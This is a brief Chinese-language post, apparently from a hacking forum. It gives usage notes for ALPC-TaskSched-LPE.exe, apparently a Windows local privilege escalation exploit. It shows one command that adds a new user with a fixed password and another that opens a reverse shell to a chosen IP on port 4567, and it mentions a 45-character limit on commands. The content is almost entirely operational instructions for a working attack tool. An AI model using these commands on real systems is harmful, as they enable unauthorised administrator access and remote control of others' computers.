 随便写写大佬勿喷  
ALPC-TaskSched-LPE.exe -e "net user admin 1234567@ /add"  
这里我给限制成45个字符了懒得改了不改了要执行程序用全路径  
ALPC-TaskSched-LPE.exe -g ip 反弹到ip的4567端口  
